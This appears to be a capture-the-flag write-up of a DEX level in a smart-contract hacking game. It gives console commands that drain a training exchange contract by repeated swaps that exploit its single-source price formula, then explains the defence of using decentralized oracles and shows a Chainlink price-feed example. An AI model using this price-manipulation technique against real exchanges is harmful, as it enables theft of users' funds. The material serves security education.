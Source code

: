 Difficulty 3/10

The goal of this level is for you to hack the basic [DEX](https://en.wikipedia.org/wiki/Decentralized_exchange) contract below and steal the funds by price manipulation.

You will start with 10 tokens of `token1` and 10 of `token2`. The DEX contract starts with 100 of each token.

You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

### Quick note

Normally, when you make a swap with an ERC20 token, you have to `approve` the contract to spend your tokens for you. To keep with the syntax of the game, we've just added the `approve` method to the contract itself. So feel free to use `contract.approve(contract.address, <uint amount>)` instead of calling the tokens directly, and it will automatically approve spending the two tokens by the desired amount. Feel free to ignore the `SwappableToken` contract otherwise.

  Things that might help:

-   How is the price of the token calculated?
-   How does the `swap` method work?
-   How do you `approve` a transaction of an ERC20?

```
let t1 = await contract.token1()
let t2 = await contract.token2()

let player_t1 = await contract.balanceOf(t1, player)
let player_t2 = await contract.balanceOf(t2, player)

contract.approve(player, 110)
contract.approve(instance, 110)

contract.swap(t2, t1, player_t1) //mistake but ok
```

then continue to do this until one token reaches 0
```
let player_t1 = await contract.balanceOf(t1, player)

contract.swap(t1, t2, player_t1)

let player_t2 = await contract.balanceOf(t2, player)

contract.swap(t2, t1, player_t2)
```

after _ _ rounds the swap fails and we have:
|-|token1|token2|
|---|---|---|
|dex|45|110|
|player|65|0|

in the `swap()` function, the dex will calculate `swap_amount` using `get_swap_price`:
```
swap_amount = (x * from) / to
```

we want `swap_amount = 110` so solving for x:
```
110 = (x * 110) / 45
x = 45
```

one more swap: `contract.swap(t1, t2, 45)`
and we can check the dex: 
```javascript
await contract.balanceOf(t2, instance)
	o {negative: 0, words: Array(2), length: 1, red: null}
	length: 1
	negative: 0
	red: null
	words: Array(2)
	0: 0 // <- 0
	length: 2
	[[Prototype]]: Array(0)
	[[Prototype]]: Object
```

End:
Level completed!
Difficulty 3/10

The integer math portion aside, getting prices or any sort of data from any single source is a massive attack vector in smart contracts.

You can clearly see from this example, that someone with a lot of capital could manipulate the price in one fell swoop, and cause any applications relying on it to use the the wrong price.

The exchange itself is decentralized, but the price of the asset is centralized, since it comes from 1 dex. This is why we need oracles. Oracles are ways to get data into and out of smart contracts. We should be getting our data from multiple independent decentralized sources, otherwise we can run this risk.

Chainlink Data Feeds are a secure, reliable, way to get decentralized data into your smart contracts. They have a vast library of many different sources, and also offer secure randomness, ability to make any API call, modular oracle network creation, upkeep, actions, and maintainance, and unlimited customization.

Uniswap TWAP Oracles relies on a time weighted price model called TWAP. While the design can be attractive, this protocol heavily depends on the liquidity of the DEX protocol, and if this is too low, prices can be easily manipulated.

Here is an example of getting data from a Chainlink data feed (on the kovan testnet):


pragma solidity ^0.6.7;

import "@chainlink/contracts/src/v0.6/interfaces/AggregatorV3Interface.sol";

```
contract PriceConsumerV3 {

    AggregatorV3Interface internal priceFeed;

    /**
     * Network: Kovan
     * Aggregator: ETH/USD
     * Address: 0x9326BFA02ADD2366b30bacB125260Af641031331
     */
    constructor() public {
        priceFeed = AggregatorV3Interface(0x9326BFA02ADD2366b30bacB125260Af641031331);
    }

    /**
     * Returns the latest price
     */
    function getLatestPrice() public view returns (int) {
        (
            uint80 roundID, 
            int price,
            uint startedAt,
            uint timeStamp,
            uint80 answeredInRound
        ) = priceFeed.latestRoundData();
        return price;
    }
}
```
Try it on Remix